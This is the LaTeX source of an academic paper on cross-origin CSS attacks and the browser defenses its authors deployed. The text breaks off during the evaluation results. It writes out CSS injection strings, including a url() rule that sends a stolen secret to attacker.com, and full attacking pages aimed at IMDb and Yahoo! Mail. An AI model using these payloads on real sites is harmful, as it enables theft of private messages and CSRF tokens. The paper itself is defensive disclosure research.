\documentclass{acm_proc_article-sp}
\usepackage{url}
\usepackage{verbatim}
\usepackage[utf8]{inputenc}
\usepackage{microtype}
\usepackage{booktabs}
\hyphenation{brow-ser brow-sers tra-dit-ion-al ja-va-script}
\begin{document}

\title{Protecting Browsers from Cross-Origin CSS Attacks}
\numberofauthors{4}
\author{
\alignauthor
Lin-Shung Huang\\
      \affaddr{Carnegie Mellon University}\\
      \affaddr{linshung.huang@sv.cmu.edu}
\alignauthor
Zack Weinberg\\
      \affaddr{Mozilla}\\
      \affaddr{zweinberg@mozilla.com}
\and
\alignauthor
Chris Evans\\
      \affaddr{Google}\\
      \affaddr{cevans@google.com}
\alignauthor
Collin Jackson\\
      \affaddr{Carnegie Mellon University}\\
      \affaddr{collin.jackson@sv.cmu.edu}
}

\newcommand{\todo}[1]{\textbf{[TODO: #1]}}

\maketitle
\begin{abstract}
Cross-origin CSS attacks use style sheet import to steal confidential
information from a victim website, hijacking a user's existing
authenticated session and bypassing cross-site defenses.  We show how
to conduct these attacks with any browser, even if JavaScript is
disabled, and propose client-side defenses that still allow the vast
majority of web sites to function normally. We have implemented and
deployed defenses in Firefox, Google Chrome, and Safari. Our defense
proposal has also been adopted in Opera.
\end{abstract}

\category{K.6.5}{Management of Computing and Information Systems}
                {Security and Protection}

\terms{Security}

\keywords{CSS, MIME, Same-Origin Policy}

\section{Introduction}

The World Wide Web was originally envisioned \cite{wwwproposal} as a
means to collate a wide variety of human-readable, static documents,
present them via a unified interface, and facilitate browsing through
them by searching or via inter-document references. It has grown into
a versatile platform for all kinds of computing tasks, progressively
gaining support for data entry, client-side scripting, and
application-specific network dialogues.  Web-hosted applications have
supplanted traditional desktop applications for almost everything that
requires network communication, and are becoming competitive in other
areas.  It is not an exaggeration to say that the Web is the
development platform of choice for new software.

The \emph{same-origin policy}~\cite{mozillasameorigin} is the basic
principle used to secure Web applications from each other.  Scripts
belonging to one website can only communicate with that site's
servers, and cannot access the contents of pages loaded from other
sites.  However, this compartmentalization applies only to scripts.
An HTML document can load any sort of content---images, style sheets,
nested documents and “plug-ins,” even scripts---from any site,
same-origin or not.  In theory, this is a safe, useful capability:
rarely-changing content like images may be hosted on servers dedicated
to that purpose; popular script libraries (jQuery, Prototype, etc) may
be shared among sites; pages may incorporate YouTube-hosted videos
instead of just referring to them.  Browsers apply the same-origin
policy even within what appears to the user to be one unified “page;”
for instance, scripts can only inspect the DOM tree for an
\texttt{IFRAME}'s nested document if that document came from the same
origin.

Cascading style sheets (CSS) are the third principal component of Web
documents; they define appearance, just as HTML defines content and
JavaScript behavior.  Of the three, CSS was invented last; proposals
for author control of style were circulated as early as
1993~\cite{css-history}, but the first complete specification dates to
1996~\cite{css1} and was not implemented in a widely-used browser till
1997~\cite{eich}.  The CSS specification is continually being
extended, and its original designers planned for this.  As long as new
CSS features conform to the \emph{forward-compatible parsing rules}
defined in \cite{syndata}, old browsers will skip over features they
do not implement, while continuing to honor instructions that they do
understand.  Web designers can thus build sites that take advantage of
the very latest CSS features but “degrade gracefully” and remain
usable with older browsers.  Unfortunately, the forward-compatible
parsing rules are so permissive that they can find valid CSS
constructs in an input stream that was not intended to be CSS at all;
for instance, in an HTML document.

This leads to a security hole, first described (to our knowledge) in
2002 \cite{cssxss02} and rediscovered at least twice since then
\cite{cssxss05,cssxss08}.  If a malicious site can inject chosen
strings into a target webpage (whose structure, but not specific
contents, are known) and then load that page as a style sheet, it can
extract information by examining what the CSS parser makes of this
“sheet.”  even if the target page cannot be retrieved
without presenting login credentials, because the browser will present
any credentials (e.g.\ HTTP cookies) it has stored for the target
server when it does the load.  However, to date, all published attacks
of this type have required JavaScript, and most have been specific to
Internet Explorer.

In this paper, we present a general form of the attack that can be
made to work in any browser that supports CSS, even if JavaScript is
disabled or unsupported.  We then propose and implement modifications
to browser handling of CSS that completely block the attack, as long
as the victimized web site does not make certain errors (discussed
below).  Our modifications have no negative side effects for most
websites, and have been adopted by Firefox, Google Chrome, Safari, and
Opera.

\paragraph{Organization}
The rest of this paper is organized as follows. Section~\ref{sec:threatmodel} presents a threat model for cross-origin CSS attacks.
Section~\ref{sec:attacks} describes the attack in detail. Section~\ref{sec:defenses} proposes and evaluates defenses.
Section~\ref{sec:relatedwork} surveys related work.
Section~\ref{sec:conclusion} concludes.

\section{Threat Model} \label{sec:threatmodel}

The threat model for cross-origin data theft with CSS is essentially
the same as the threat model for other cross-origin attacks.  A
\emph{web attacker}~\cite{jackson09thesis} is a malicious principal
who owns a domain name and operates a web server.  The web attacker's
goal is to steal data from another web site (the \emph{target}) that
should only be revealed to a particular user (the \emph{victim}) and
not to the attacker.  Alternatively, the goal may be to forge requests
to the target site using the victim's credentials.  Cross-origin CSS
attacks directly facilitate the first goal, and may indirectly
facilitate the second goal by giving the attacker access to session
credentials.

The web attacker can send and receive arbitrary network traffic, but
only from its own servers.  It cannot modify, or even eavesdrop on,
traffic to other sites, nor can it generate “spoofed” network frames
that purport to be from some other site.  Also, it cannot install
malicious software on the victim's computer; if it could, all
browser-based defenses would be useless.

The web attacker can inject text strings into the target site,
provided that they pass state-of-the-art server-side XSS filters such
as \cite{htmlpurifier}.  In general, a cross-site CSS attack will
require the attacker to inject two strings, one on each side of the
secret to be stolen; however, depending on the structure of the target
page, one string may be sufficient.

Finally, the web attacker can entice the victim into visiting its
site; this is easily done either by social engineering, or by
manipulating an advertisement network.  We do not assume that the
victim discloses any sensitive information while on the attacker's
site; merely rendering the attacker's web content is sufficient.

\section{Cross-Origin CSS Attacks} \label{sec:attacks}

In this section, we present cross-origin CSS attacks in detail.
First, we describe aspects of browser behavior that, together,
make these attacks possible.  Second, we lay out the steps of an
attack on a hypothetical website.  Third, we discuss constraints on
practical executions of the attack.  Finally, we demonstrate that the
attack can be carried out against several popular web applications.

\subsection{Browser Behavior}

Cross-origin CSS attacks are possible because of existing browser
behaviors, reasonable taken in isolation, but with unexpected
interactions: session authentication, cross-origin resources,
error-tolerant style sheet parsing, and content sniffing.

\subsubsection{Session Authentication}
Web applications that handle sensitive data typically use client-side
state to manage a distinct “session” for each visitor.  The most
common technique uses HTTP cookies~\cite{rfc2109,httpstate} to define
a session; HTTP authentication~\cite{rfc2617} is also viable, but less
popular since it gives the application less control over user
experience.  Either way, once a user has logged into a web
application, their browser will transmit a credential with every HTTP
request to that server, allowing the server to identify the session
and reply with HTML documents containing confidential information
intended only for that user.  A request for the same URI without the
credential produces an HTTP error, or a generic document with no
confidential information.

\subsubsection{Cross-Origin Resources}
As discussed in the Introduction, browsers permit web pages to
reference resources (images, scripts, style sheets, etc.)\ from any
origin, not just from the server hosting the page itself.  Requests
for cross-origin resources transmit any credentials (cookies or HTTP
authentication tokens) associated with the site that hosts the
resource, \emph{not} credentials associated with the site whose page
made the reference.  Thus, confidential information from one site can
be “transcluded” into a page that could not read it directly.  The
browser prevents scripts in the requesting page from inspecting any of
the embedded content, so this should be safe.  However, cross-origin
request forgery (CSRF) attacks~\cite{csrf} exploit this in conjunction
with the common use of URIs to name \emph{commands} as well as
resources; given the right HTML, the browser will cheerfully try to
load an image from \url{http://example.com/logout} or
\url{http://example.com/post12345?action=delete}.

\begin{figure*}[t]
\begin{center}

\includegraphics[width=5in]{victim-manipulation}
\vskip 0.5em
\setlength{\tabcolsep}{0.12in}
\begin{tabular}{p{1.5in}p{1.5in}p{1.5in}}
\centering
HTML document; secret data is highlighted.&
\centering
Attacker injects CSS leader and trailer around secret.&
\centering
CSS parser skips most of the document, makes secret
available via computed style.
\end{tabular}
\end{center}
\caption{Anatomy of the attack.}
\label{figure:victim}
\end{figure*}

\subsubsection{Error-Tolerant Style Sheet Parsing} \label{sec:lax}
CSS syntax has much more in common with JavaScript than with HTML.
HTML uses angle brackets to delimit \emph{tags} that must nest; text
outside tags is mostly unparsed. CSS and JavaScript both use curly
braces to enclose \emph{blocks}; inside or outside a block, the input
text must follow a formal grammar.  However, CSS's \emph{keywords} are
almost entirely different from JavaScript's keywords.

When browsers encounter syntax errors in CSS, they discard the current
syntactic construct, skip ahead until what appears to be the beginning
of the next one, then start processing again.  The CSS
specification~\cite{syndata} defines precisely how this must be done,
so that browsers will behave predictably when they see new CSS
features they do not understand.  When skipping ahead, the browser
uses only a few simple grammar rules:

\begin{itemize}
\item \verb|/* ... */| is a comment to be ignored, as in JavaScript.
  However, unlike JavaScript, \verb|//| does \emph{not} indicate the
  beginning of a single-line comment.
\item Single- and double-quoted strings also work as in JavaScript;
  backslash escapes are a little different, but this doesn't matter
  for our purposes.  Internet Explorer permits strings to extend past
  a line break, but in all other browsers this is a syntax error.
\item Parentheses, square brackets, and curly braces must be properly
  balanced and nested.
\item Unlike in HTML, angle brackets are not expected to balance.
\item The end of a style sheet closes all open constructs
  \emph{without error}.
\item Depending on where the syntax error occurred, the next syntactic
  construct might begin after the next semicolon, after going up one
  brace level, or after the next brace-enclosed block.
\end{itemize}

As shown in figure~\ref{figure:victim}, these rules allow a valid HTML
document to be interpreted as partially-valid CSS.

\subsubsection{Content Sniffing} \label{sec:mime}
The HTTP \texttt{Content-Type} header is supposed to indicate the type
of the content being transmitted, using the Multipurpose Internet Mail
Extensions (MIME) type vocabulary~\cite{mime}; for instance, HTML is
labeled \texttt{text/html}, CSS is labeled \texttt{text/css}, and a
JPEG-format photograph is labeled \texttt{image/jpeg}.  For content
that is, at root, textual, \texttt{Content-Type} is also supposed to
indicate the character encoding.

Unfortunately, the \texttt{Content-Type} header is unreliable in
practice; the situation is better than it was ten years ago, but
misconfigured HTTP servers still frequently omit this header, or
produce it but with incorrect information.  Therefore, browsers must
use “content-sniffing” algorithms~\cite{securecontentsniffing} that
inspect the first few bytes of the HTTP response body, as well as the
\texttt{Content-Type} header, to decide how to process resources.  The
security problems this causes have been well-covered elsewhere.

CSS is also frequently delivered with an incorrect MIME type, usually
\texttt{text/plain} or \texttt{text/html}.  A valid style sheet can
begin with an enormous number of different byte sequences, so browsers
do not attempt to content-sniff for CSS.  Instead, they allow a
document in “quirks mode”~\cite{quirksmode} to load \emph{anything at
  all} as a style sheet, regardless of its \texttt{Content-Type}
header.  (In “standards mode,” style sheets must be delivered with the
correct \texttt{Content-Type}, or they are ignored.)

\begin{table*}
\centering
\footnotesize
\begin{tabular}{crccccc}
\toprule
Approach&\multicolumn{1}{c}{API}&IE&FF&Opera&Safari&Chrome\\
\midrule
CSS Object Model&
  \texttt{styleSheets[].cssRules[].cssText}&&&&\checkmark&\checkmark\\
 &\texttt{getMatchedCSSRules().cssText}&&&&\checkmark&\checkmark\\
\addlinespace
Computed Style&
  \texttt{getComputedStyle}&&\checkmark&\checkmark&\checkmark&\checkmark\\
 &\texttt{currentStyle}&\checkmark&&\checkmark&&\\
\addlinespace
No Javascript&
  \texttt{background-image}, etc.&
  \checkmark&\checkmark&\checkmark&\checkmark&\checkmark\\
\bottomrule
\end{tabular}
\caption{Methods of Extracting Information from Cross-Origin Style Sheets}
\label{table:DOM}
\end{table*}

\subsection{Attack Steps}
In a cross-origin CSS attack, the attacker wishes to steal data that
should only be revealed to a particular user (the \emph{victim}) from
a web site it does not control (the \emph{target}).  The stolen data
may be itself of value (e.g.\ a private e-mail message), or it may
enable another attack (e.g.\ a token embedded in the target document
to block CSRF attacks).  To do so, the attacker first injects strings
into the target document that bracket the data to be stolen; then it
loads the target document as if it were a style sheet for a page under
its own control.  (Since the attacker controls this page, it can
ensure that “quirks mode” is in effect, so the \texttt{Content-Type}
of the target document does not matter.)  The injected strings cause
the CSS parser to ignore most of the document and extract the secret,
bypassing the same-origin policy.  Figure~\ref{figure:victim}
illustrates these steps.

\subsubsection{CSS String Injection}
One might expect that an HTML document, when parsed as a style sheet,
would produce nothing but syntax errors.  However, because of the
predictable error recovery rules described in section~\ref{sec:lax},
it is possible to inject strings into a document that will cause the
CSS parser to come out of error recovery mode at a predictable point,
consume some chunk of the document as a \emph{valid} rule, and then
return to skipping.  Attackers have many options for injecting text
into a web page, even one they cannot see without authentication.  In
\cite{cssxss08} the attacker created an account on the target site
with a carefully crafted user handle, then induced the victim to view
the account profile.  Our demonstration attacks in
section~\ref{sec:demos} use intra-site private messages or junk
email sent to the victim.

In the middle document in figure~\ref{figure:victim}, the attacker has
arranged to insert two strings into the document:
\begin{itemize}
\item \verb|{}#f{font-family:'| before the secret
\item \verb|';}| after the secret
\end{itemize}
The target site has wrapped each of these in an HTML \verb|<span>|,
which is harmless to the attacker's purpose.  The opening string has
three components: The two-character synchronization sequence \verb|{}|
is enough to end error recovery for many HTML documents; it will only
fail if there is something before the injection point that must be
balanced---an unclosed string or CSS comment, or an unmatched \verb|{|
\verb|[| or \verb|(|.  If the attacker can predict what comes before
the injection point, it can tailor the synchronization sequence to
match.  \verb|#f{font-family:| is the beginning of a valid CSS style
rule, declaring the font family for an element in the attacker's
document (with ID \texttt{f}).  The \texttt{font-family} property
takes a string constant as its value; thus the final component of the
opening string is a single quote character, \verb|'|.  The CSS parser
will absorb whatever follows as a string, as long as it contains
neither line breaks nor another single quote.  (The text in
figure~\ref{figure:victim} has been word-wrapped for readability; if
any of the line breaks in between the injected blocks were actually
present, the attack would only work in IE.)

The closing string simply ends the CSS string constant with another
quote mark, and then closes the style rule with a semicolon and a
close brace.  (The semicolon could be omitted.)  Regardless of what
appears after the close brace, this style rule has been successfully
parsed and will affect the attacker's document.

\subsubsection{Cross-Origin CSS Import}
When the victim user visits \texttt{attacker.com}, the attacker's page
instructs the victim's browser to fetch and load the target document,
with its injected strings, as an external style sheet.  This can be
done with the \texttt{link} tag~\cite{html}:
\begin{verbatim}
<LINK REL="stylesheet" HREF="http://target.com">
\end{verbatim}
or with the CSS “import” directive, in an internal style sheet:
\begin{verbatim}
<STYLE>@import url(http://target.com);</STYLE>
\end{verbatim}
The attacker must ensure that their page is in “quirks mode,” but this
is easy to do: simply do not begin the page with any \verb|<!DOCTYPE|
declaration, and do not serve it as XHTML.

\subsubsection{Confidential Data Extraction}\label{sec:extraction}
Having loaded the target document as a style sheet, the attacker must
finally extract the secret from the style rules.  There are three
approaches, some of which are more convenient and some of which work
under more conditions; Table~\ref{table:DOM} summarizes them.
JavaScript-based approaches transmit the stolen data to the attacker's
server using \texttt{XMLHttpRequest} or a hidden form; the
non-JavaScript approach uses a carefully constructed URL instead.

\paragraph{CSS Object Model}
JavaScript can read the text of successfully parsed style rules via
the \texttt{cssText} property of \emph{style rule} objects.  All the
style rules for a document are visible in the
\texttt{document.styleSheets[].cssRules[]} arrays.  Safari and Google
Chrome also provide the \texttt{getMatchedCSSRules} utility function
that can retrieve style rules matched by an element.  This is perhaps
the most convenient way to extract secrets, but it only works in
Safari and Chrome.  IE, Firefox, and Opera have blocked JavaScript
access to style rules from sheets loaded cross-origin since 2002 (in
response to~\cite{cssxss02}).  In the example in
figure~\ref{figure:victim}, \texttt{cssRules[0].cssText} would expose
all of the text that isn't struck out in the right-hand document.

\paragraph{Computed Style}
JavaScript can also inspect the style currently applied to an element,
never mind how it got that way.  This variant of the attack is
slightly less convenient; the attacker must ensure that the style rule
produced by the attack does apply to some element in the attacking
page (not in the target page), and the JavaScript code required is not
fully portable.  Most browsers support the standard function
\texttt{getComputedStyle}, but for IE one must use the
\texttt{currentStyle} object.  However, no current browser blocks
access to computed styles based on origin, so this variant works in
any current browser as long as JavaScript is enabled.
\texttt{getComputedStyle(f).style.fontFamily} would expose the text
highlighted in white in the right-hand document in
figure~\ref{figure:victim}.

\paragraph{Without JavaScript}
This attack is even possible if users have disabled JavaScript,
although not as shown in Figure~\ref{figure:victim}.  Several CSS
properties can direct the browser to load an arbitrary URL; for
instance, the attacker might change their injected strings to

\begin{itemize}
\item \verb|{}#f{background:url('http://attacker.com/?|\\
  before the secret
\item \verb|');}| after the secret
\end{itemize}

As long as there is an element in the attacking page that matches this
rule, the browser will issue a GET request to the attacker's server
and provide the secret to be stolen as the query string.  This
approach is somewhat less convenient than the JavaScript-based ones
for bootstrapping a CSRF attack, but perhaps \emph{more} convenient if
the only goal is to steal data, since one need not worry about
client-side JavaScript incompatibilities.  Cross-origin form
submission does not require JavaScript, so a clickjacking-type CSRF
attack~\cite{clickjacking} is still possible.

\subsection{Attack Limitations}
There are a few restrictions that can hinder the attacker's ability to conduct a cross-origin CSS attack.

\subsubsection{Insufficient Injection Points}
The first and most crucial requirement of the cross-origin CSS attack is to contain the secret data into a CSS property declaration. In order for the CSS parser to properly parse the evil CSS rule, certain symbols must be inserted at the beginning and at the end of the stolen string. In general, the attacker must have sufficient influence over the target document to control two injection points to insert the CSS property opening strings and termination strings, respectively. Typically, social web sites are relatively more susceptible to this attack since the pages often contain user-controlled strings such as comments on photos. For some web pages, a second injection is not required because the termination string happens to exist later in the document. This is possible since the termination string can be as short as just a quotation mark and an ending bracket.

\subsubsection{Character Escapes} \label{sec:escapes}
In the CSS specification~\cite{cssspec}, strings can either be written with double quotes or with single quotes. Double quotes cannot occur inside double quotes, and the same applies for single quotes. Therefore, the attacker has the choice to inject either single or double quotes depending on the occurrence of quotes in the secret data. In a context where both quotes are escaped, it becomes more difficult to inject a CSS string. However, a variation of the attack can bypass this restriction by injecting the CSS property \texttt{background-image}. For the \texttt{background-image} property, the URL value is written with the functional notation \texttt{url()}, which does not require the use of single or double quotes around the URL string itself. The CSS specification does define that certain characters must be escaped in an unquoted URL, e.g. parentheses, commas, white spaces, single quotes and double quotes. However, in Internet Explorer, the CSS parser does not require any of these characters to be escaped in an unquoted URL and will parse until it encounters a closing parentheses and a semicolon.

\paragraph{Forcing UTF-7}
The requirement for quotes not to get escaped can sometimes be bypassed in browsers that support UTF-7 encoding, including Firefox and Safari. If the target web sites fails to specify a character set in the HTTP Content-Type header, the attacker's evil page can force the imported remote resource to be parsed as UTF-7 encoding:
\begin{verbatim}
<LINK REL="stylesheet" HREF="http://target.com"
CHARSET="utf-7">
\end{verbatim}
By forcing UTF7, either a single or double quote may be injected by rendering it in the UTF-7 character set, i.e. ``\texttt{+ACc-}'' for single quote and ``\texttt{+ACI-}'' for double quote. This will cause the injection to survive any output escaping of the web application. A significant number of web sites actually do not specify character sets in their HTTP responses; we found that only 584 out of the top 1,000 web sites ranked by Alexa~\cite{alexa} specified character sets for their home pages via the HTTP Content-Type header. Some web sites specify the character set information using meta tags with the \texttt{http-equiv} attribute in the HTML head element:
\begin{verbatim}
<META HTTP-EQUIV="Content-Type" CONTENT="text/html;
charset=utf-8">
\end{verbatim}
Browsers may use meta tags to refine the information provided by the actual headers, but can also ignore it. If a document declares a character set in a meta tag but not in the response header, the referring page can override the character set with the \texttt{charset} attribute in the parent link tag. Thus, we recommend that sites always use HTTP headers to specify the MIME type and character set of documents.

\subsubsection{Newlines}
In CSS, a string cannot directly contain a newline. To include a newline in a string, the line feed character must be escaped. Therefore, another barrier of this attack is that any un-escaped newline in the stolen string will break the CSS parsing. This is a very common condition in many web pages, which avoids potentially serious attacks. However, many rich-functionality web sites are often exploitable due to serving cookie-authenticated URLs with JSON or XML responses that commonly lack newlines. Some web sites even allow users to control the formatting of server responses, e.g. disabling pretty printing, which may be extremely dangerous.
%\paragraph{Internet Explorer}
The CSS parser in the Internet Explorer accepts both newlines in CSS strings and newlines in unquoted URL strings, regardless of whether they are escaped or not. This behavior makes attacks significantly easier to construct in Internet Explorer.

\subsection{Example Attacks} \label{sec:demos}
In this section, we present several examples of cross-origin CSS attacks on popular web sites. First, we describe an attack on a popular movie database web site that leaks private messages of registered users, in the Internet Explorer browser. Then, we describe a cross-browser attack on a popular web mail application that leaks the subject headings of the received e-mails in the victim user's inbox, and even reveals secret CSRF tokens.

\paragraph{IMDb} IMDb is a popular online database of movies and related information, which allows users to rate films and make posts on message boards. Some of the features for a registered account include adding users to their friends list and sending private messages to other users. Targeting the user's private messaging page, the attacker can mount an attack with the following steps:
\begin{enumerate}
\item{The attacker sends an evil private message to the victim's account with the subject line:\\ \texttt{\{\}body\{font-family:`} }
\item{While signed in to IMDb, the victim visits the attacking page on \texttt{attacker.com}, constructed as follows:}
\end{enumerate}
\begin{verbatim}
<HTML>
<HEAD>
<LINK REL="stylesheet" HREF="http://www.imdb.com/
user/ur12345678/boards/pm/">
<SCRIPT>
function steal() {
  alert(document.body.currentStyle[`fontFamily']);
}
</SCRIPT>
</HEAD>
<BODY onLoad="steal()">
</BODY>
</HTML>
\end{verbatim}

The attacking page imports the victim's private messaging page as a style sheet resource. As long as the victim's session cookie has not expired, the browser will automatically sign in using the victim's cookie when fetching the page. The injected subject line in the inbox allows portions of the document to be parsed as a valid CSS construct. Due to the existance of double quotes in the target page, we chose to use single quotes in the CSS injection string to avoid string termination. The stolen HTML fragment would contain the subject and body of all preceding private messages, which can be extracted by reading the computed \texttt{background-image} style in JavaScript.

Note that the target URL contains the victim's account string ``ur12345678'', which is public and can be simply fetched from any user profile link on the message board. In this example, a single injection point is sufficient due to the highly probable existence of the termination string. Such a vulnerability may be widespread on many low security sites.

\paragraph{Yahoo! Mail} Yahoo! Mail is a free web mail service that lets users send and receive e-mails using any popular web browser with cookies and JavaScript enabled. After a user signs in with a valid account, the web site can authenticate the user with browser session cookies for as long as two weeks without signing out. Targeting the Yahoo! Mail for Mobile home page, the attacker can mount a cross-browser attack on victims that are signed in with the following steps:
\begin{enumerate}
\item{The attacker sends an evil e-mail to the victim's account with the subject line:\\
\texttt{');\}} }
\item{The attacker waits for sensitive e-mails to fill the victim's inbox.}
\item{The attacker sends another evil e-mail to the victim's account with the subject line:\\ \texttt{\{\}body\{background-image:url(`}}
\item{While signed into Yahoo! Mail for Mobile, the victim visits the attacking page, constructed as follows:}
\end{enumerate}
\begin{verbatim}
<HTML>
<HEAD>
<LINK REL="stylesheet" HREF="http://m.yahoo.com/mail">
<SCRIPT>
function steal() {
  if(document.body.currentStyle) {
    alert(document.body.currentStyle[`backgroundImage']);
  } else {
    alert(window.getComputedStyle(document.body, "").
backgroundImage);
  }
}
</SCRIPT>
</HEAD>
<BODY onLoad="steal()">
</BODY>
</HTML>
\end{verbatim}

The attacking page imports the Yahoo! Mail for Mobile page as a style sheet resource, which serves a single-line formatted HTML containing the victim user's inbox. Similarly, the injected subject lines in the inbox allow portions of the document to be parsed as a valid CSS construct. The stolen HTML fragment would contain the subject headings of all e-mails delivered to the victim between the two evil e-mails.

The stolen HTML fragment also reveals a hidden input value that appears to be an unguessable key. We believe that the mail application relies on this value as a secret token to defend CSRF attacks. This is indeed the case for the e-mail deletion operation, which is accepted only if the correct hidden input value is provided.

\paragraph{Hotmail}
We found that Windows Live Hotmail was vulnerable to a nearly identical attack as Yahoo! Mail. By sending two evil e-mails to the victim's Hotmail account and importing the mobile mail page ``\texttt{http://mail.live.com/m/}'' as a style sheet resource, an attacker can read secret messages and steal secret tokens. Due to the use of newlines in the stolen HTML fragment (unlike Yahoo! Mail for Mobile), this attack is limited to the Internet Explorer browser.
The existence of nearly identical attacks demonstrates the general nature of the cross-origin CSS vulnerabilities. We expect that many social networking sites are vulnerable to variants of this attack as well, because the attacker can leave arbitrary text comments that are rendered somewhere on the victim's view of the page.

\section{Defenses} \label{sec:defenses}
In this section, we describe the defenses against cross-origin CSS attacks.
First, we propose to apply stricter browser requirements for loading
cross-origin CSS resources. Next, we present an evaluation of web site
compatibility for our proposal. Finally, we state the progress of adoption for
our proposal in major browsers and discuss the remaining issues.

\subsection{Proposal: Restrictions on Loading Cross-Origin CSS} \label{sec:proposal}
To prevent cross-origin
CSS attacks, we propose that browsers should apply stricter checking when
loading cross-origin CSS files. In fact, most modern browsers support a
standards-compliant mode, which requires the correct MIME type when loading CSS
files. However, this mode is only enabled when the web developer declares a
document type definition (DTD), e.g. \verb|<!DOCTYPE html>|, in the referring
document. When no DTD is present, the browser renders the document in
``quirks'' mode for better backward-compatibility. Of course, in a
cross-origin CSS attack, the attacker is perfectly willing to omit the DTD in
order to trigger quirks mode.

Our proposed defense, therefore, is to enforce MIME type checking for
cross-origin CSS files, even in quirks mode. We describe two variants on this
proposal: a strict approach that does not allow any MIME type mismatches, and
a conservative approach that maximizes web site compatibility by allowing
apparently benign MIME type mismatches.

\subsubsection{Strict Approach}
In the cross-origin CSS attack, the attacker's evil web page confuses the victim's browser to parse the injected target document as a style sheet. If browsers strictly required external style sheets to specify the \texttt{text/css} MIME type, malicious web sites would not be able to import crafted HTML documents as style sheets. One effective solution is to let browsers always check the MIME type for cross-origin CSS resources and block CSS loads with an invalid MIME type. When strict MIME type checking is enforced, at least for cross-origin CSS loads (if not globally), browsers would be able to protect non-CSS target documents from being stolen.

The major concern of the strict approach is that any misconfigured cross-origin resources that fail to specify a valid MIME type would be blocked. Strict MIME type checking relies on web developers to correctly deploy their web sites and provide valid MIME types. Unless every web developer properly configures their servers to send the correct Content-Type response header, the strict approach will inevitably introduce false positives and block CSS imports on non-attacking web sites.

\subsubsection{Conservative Approach}
To address web site compatibility concerns, we also propose a conservative approach that blocks most attacks while tolerating some common MIME type misconfigurations. In order to reduce false positives in the strict MIME type approach, an additional level of checking is applied to cross-origin CSS resources that have invalid MIME types. When a valid MIME type is not provided, the browser will try to parse the cross-origin CSS but rejects the style sheet upon encountering the first syntax error. This simple parsing test helps to determine whether the imported CSS file is an injected target document. Therefore, the devised solution blocks CSS loads only when all of the following conditions are met:
\begin{itemize}
\item{The CSS resource is a cross-origin load.}
\item{The CSS resource has an invalid MIME type for CSS.}
\item{The alleged CSS file does not start with a syntactically valid CSS construct.}
\end{itemize}
The above rules will block most cross-origin CSS attacks because the target documents that are not CSS files have headers that will cause a broken first CSS descriptor, e.g. HTML or XML headers. We also assume that a legitimate CSS file will unlikely have a syntax error at the beginning of the file and a broken MIME type, thus this heuristic should not break, or affect the rendering, of most existing sites. Only the cross-origin CSS files that have an invalid MIME type and start with malformed syntax are determined as an attacked document and should be rejected.

\subsubsection{Experiment}
To evaluate the compatibility of our proposed defense of stricter cross-origin CSS loading, we conducted an experiment to measure how often web servers fail to provide the correct MIME type for CSS files and whether these CSS files are syntactically well-formed when loaded cross-origin.

\paragraph{Design}
To measure how often web servers fail to provide the correct MIME type for CSS files, we collected metrics by crawling the top 100,000 web sites ranked by Alexa~\cite{alexa} and scanned through all of the style sheet resources in their home pages. We are interested in all cross-origin CSS loads including using HTML link tags and CSS import directives. Furthermore, some web sites dynamically add CSS links using JavaScript while the page loads. To achieve a more thorough scan for these CSS loads, we directly rendered these web pages with an instrumented WebKit browser while recording information of all CSS loads until the web page finishes loading.

\begin{table*}
\centering
\begin{tabular}{|c|c|c|c|c|c|c|} \hline
\multicolumn{2}{|c|}{}&\multicolumn{2}{|c|}{Valid MIME}&\multicolumn{3}{|c|}{Invalid MIME}\\
\cline{3-7}\multicolumn{2}{|c|}{}&Well-Formed&Malformed&Well-Formed&Malformed&HTTP Error\\ \hline
Same-Origin&Standards Mode&178,017&506&424&1&1,497\\ 
\cline{2-7}&Quirks Mode&24,445&332&304&59&466\\ \hline
Cross-Origin&Standards Mode&47,345&104&147&0&347\\
\cline{2-7}&Quirks Mode&5,891&57&74&0&53\\ \hline
\end{tabular}
\caption{Categorization of CSS references for the top 100,000 sites.}
\label{table:results}
\end{table*}

\paragraph{Results}
From the top 100,000 web sites, our crawler logged a total of 260,069 CSS references, including 215,632 from HTML link tags and 44,437 from CSS import directives. These references include 206,051 same-origin resources and 54,018 cross-origin resources. We did not include data for sites that were unreachable during our evaluation, due to unresponding servers or domain name errors. Our results are shown in Table~\ref{table:results}.

\begin{table}
\centering
\begin{tabular}{|c|c|c|} \hline
Content-Type&Number of CSS files\\ \hline
\texttt{text/html}&715 (70.86\%)\\ \hline
Empty &178 (17.64\%)\\ \hline
\texttt{text/plain}&45 (4.46\%)\\ \hline
\texttt{application/octet-stream}&29 (2.87\%)\\ \hline
Other MIME types&42 (4.16\%)\\
\hline\end{tabular}
\caption{Common misconfigured MIME types for CSS files in top 100,000 Sites.}
\label{table:MIME}
\end{table}

